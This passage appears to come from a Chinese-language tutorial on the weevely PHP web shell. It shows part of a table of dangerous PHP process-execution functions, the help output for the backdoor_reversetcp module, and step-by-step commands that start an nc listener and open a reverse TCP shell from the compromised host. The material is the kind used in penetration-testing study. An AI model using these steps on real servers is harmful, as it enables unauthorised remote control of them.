 ```shell
|                       | Log tampering                                          |
| exec                  | Process execution                                      |
| passthru              | Process execution                                      |
| popen                 | Process execution                                      |
| proc_open             | Process execution                                      |
| shell_exec            | Process execution                                      |
| system                | Process execution                                      |
|                       | Process execution                                      |
| apache_note           | Process manipulation                                   |
| apache_setenv         | Process manipulation                                   |
| proc_close            | Process manipulation                                   |
| proc_get_status       | Process manipulation                                   |
| proc_terminate        | Process manipulation                                   |
| proc_nice             | Process manipulation                                   |
| putenv                | Process manipulation                                   |
| posix_setpgid         | Process manipulation                                   |
| posix_setsid          | Process manipulation                                   |
| posix_setuid          | Process manipulation                                   |
|                       | Process manipulation                                   |
+-----------------------+--------------------------------------------------------+
```

## backdoor\_reversetcp

执行反向TCP shell. 需要nc -lvp <port>监听。
```shell
www-data@Kali:/ $  :backdoor_reversetcp
error: the following arguments are required: lhost, port
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect]
                           [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}]
                           lhost port

Execute a reverse TCP shell.

positional arguments:            //必须
  lhost                 Local host         
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
```

先用 kali 监听 3366 端口
```shell
[root@kali] ~ # nc -lvnp 3366
listening on [any] 3366 ...
```
再用 weevely
```shell
weevely> :backdoor_reversetcp localhost 3366
```
